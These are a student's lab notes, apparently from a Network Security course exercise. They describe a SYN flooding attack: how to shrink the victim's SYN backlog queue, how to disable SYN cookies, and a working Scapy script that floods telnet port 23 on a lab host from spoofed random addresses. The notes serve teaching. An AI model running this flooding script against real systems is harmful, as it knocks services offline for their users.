 ```yaml
---
tags:
  - "#lesson"
  - lab
week: 3
creation date: 2023-10-01 11:15
modification date: Sunday 1st October 2023 11:15:05
reviewed: 
summary: 
course_name: Network Security
publish: true
---
```

# Task 1: SYN Flooding Attack
##  Prerequisites
### Minimize the size of the queue
`sysctl net.ipv4.tcp_max_syn_backlog` to check the size of the queue that it can store the half open connection
Try to change it to a smaller number such that we dont have to wait for too long before the queue gets full
you can change the queue size using `sysctl net.ipv4.tcp_max_syn_backlog=80`

### Disable SYN Cookie
On your victim machine `SYNC cookies` have to be disabled for the attack to be successful. To check the SYN Cookie status, `sysctl -a | grep syncookies`

To turn off `SYNC Cookie` run `sysctl -w net.ipv4.tcp_syncookies=0` set to `1` to enable
## Code
```python
from scapy.all import IP, TCP, send
from ipaddress import IPv4Address
from random import getrandbits

ip = IP(dst="10.9.0.5")
tcp = TCP(dport=23,flags="S")
pkt = ip/tcp
while True:
  pkt[IP].src = str(IPv4Address(getrandbits(32)))
  pkt[TCP].sport = getrandbits(16)
  pkt[TCP].seq = getrandbits(32)
  send(pkt,verbose=0)
```

## Result
### Attacker
On the attacker machine run the code to carry out the SYNC flood attack on the victim machine on `10.9.0.5` with port `23`
![](attachments/Pasted%20image%2020231001111701.png)
### Number of items in the queue